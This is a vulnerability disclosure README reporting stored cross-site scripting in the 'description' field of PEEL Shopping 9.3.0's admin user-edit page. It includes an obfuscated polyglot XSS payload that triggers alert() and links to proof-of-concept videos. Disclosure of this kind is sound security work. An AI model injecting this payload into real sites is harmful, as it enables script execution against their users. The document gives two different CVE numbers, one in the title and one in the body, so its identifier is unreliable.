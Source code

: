 # CVE-2021-27190 - PEEL Shopping, eCommerce shopping cart - Stored Cross-Site Scripting Vulnerability in 'Description'

[![Watch the video](https://i.imgur.com/UsFUHok.png)](https://drive.google.com/file/d/1dIwRdaqtEyqUUgxbRqrHiS5WQ10nEG8z/view?usp=sharing)


## Date

N/A <br />

## Exploit Author
Anmol K Sachan <br />

## Vendor Homepage
https://www.peel.fr/ <br />

## Software Link
https://www.peel.fr/nos-offres-1/peel-shopping-31.html <br />
https://sourceforge.net/projects/peel-shopping/ <br />

## Vulnerable Software Link
https://drive.google.com/file/d/1dIwRdaqtEyqUUgxbRqrHiS5WQ10nEG8z/view?usp=sharing <br />

## Software: : 
PEEL SHOPPING 9.3.0 <br />

## Vulnerability Type
Stored Cross-site Scripting <br />

## Vulnerability
Stored XSS <br />

## Tested on Windows 10 XAMPP 
<br />

## CVE Assigned 
CVE-2022-33041 <br />
This application is vulnerable to XSS vulnerability. <br />

## Vulnerable script
https://localhost/peel-shopping-master/administrer/utilisateurs.php?mode=modif&id_utilisateur=3 <br />

"description" in post parameter of "https://localhost/peel-shopping-master/administrer/utilisateurs.php?mode=modif&id_utilisateur=3"

## Payload used <br />
```jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e``` 
<br /> 
## POC
https://drive.google.com/file/d/1ytd12lKGHJ6oQoa9d5Rn-hIAp8rs-N9z/view?usp=sharing <br />

## Referneces
1. https://drive.google.com/file/d/1ytd12lKGHJ6oQoa9d5Rn-hIAp8rs-N9z/view?usp=sharing <br />
